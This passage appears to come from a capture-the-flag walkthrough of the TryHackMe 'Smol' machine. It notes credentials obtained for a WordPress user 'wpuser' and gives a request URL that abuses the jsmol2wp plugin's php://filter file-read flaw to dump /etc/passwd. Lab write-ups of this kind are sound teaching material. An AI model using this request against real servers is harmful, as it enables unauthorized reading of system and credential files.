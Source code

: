 ![image.png](/assets/images/Smol_THM/image%2010.png)

We have credentials of a user named **wpuser.**

Saving them to a creds.txt file.

We can also list the /etc/passwd file on the server.

```bash
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=////////etc/passwd
```
